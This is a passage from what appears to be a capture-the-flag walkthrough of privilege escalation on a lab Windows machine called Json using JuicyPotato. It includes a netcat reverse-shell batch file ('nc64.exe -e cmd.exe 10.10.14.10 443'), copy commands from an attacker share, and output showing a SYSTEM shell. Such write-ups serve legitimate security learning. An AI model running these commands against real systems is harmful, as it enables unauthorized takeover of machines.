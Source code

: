 ```
                                 Connection Name: Ethernet0 2
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.158
                                 [02]: fe80::f003:c7bd:7b8c:88aa
                                 [03]: dead:beef::f003:c7bd:7b8c:88aa
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.

```

### JuicyPotato

I’ll grab the binary from the [JuicyPotato release page](https://github.com/ohpe/juicy-potato/releases) and drop it into my share. I’ll copy `nc64.exe` and `rev.bat` onto Json, where `rev.bat` is just a `nc` rev shell:

```

c:\>copy \\10.10.14.10\share\nc64.exe \windows\system32\spool\drivers\color\
        1 file(s) copied.

c:\>copy \\10.10.14.10\share\rev.bat \windows\system32\spool\drivers\color\
        1 file(s) copied.
        
c:\>type \windows\system32\spool\drivers\color\rev.bat
\windows\system32\spool\drivers\color\nc64.exe -e cmd.exe 10.10.14.10 443

```

Now I’ll select a CLSID from the [JuicyPotatio documentation for this OS](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2012_Datacenter) that is associated with SYSTEM and give it a run:

```

c:\>\\10.10.14.10\share\JuicyPotato.exe -t * -p \windows\system32\spool\drivers\color\rev.bat -l 9001 -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
Testing {e60687f7-01a1-40aa-86ac-db1cbf673334} 9001
....
[+] authresult 0
{e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

```

In my `nc` listener in another window, I get a shell as SYSTEM:

```

PS > nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.158] 64696
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

```
